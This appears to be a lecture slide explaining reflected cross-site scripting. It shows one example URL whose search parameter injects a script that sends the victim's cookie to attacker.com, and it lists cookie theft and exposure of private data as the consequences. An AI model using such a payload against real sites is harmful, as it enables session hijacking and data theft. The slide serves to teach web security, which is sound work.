

# Reflected XSS attack on example 1

http://victim.com/search.php ? term=<script>window.location = “http://attacker.com?cookie=” + document.cookie; </script>

Consequence:
Victim’s Cookie stolen by attacker.com;
Possible sensitive private information;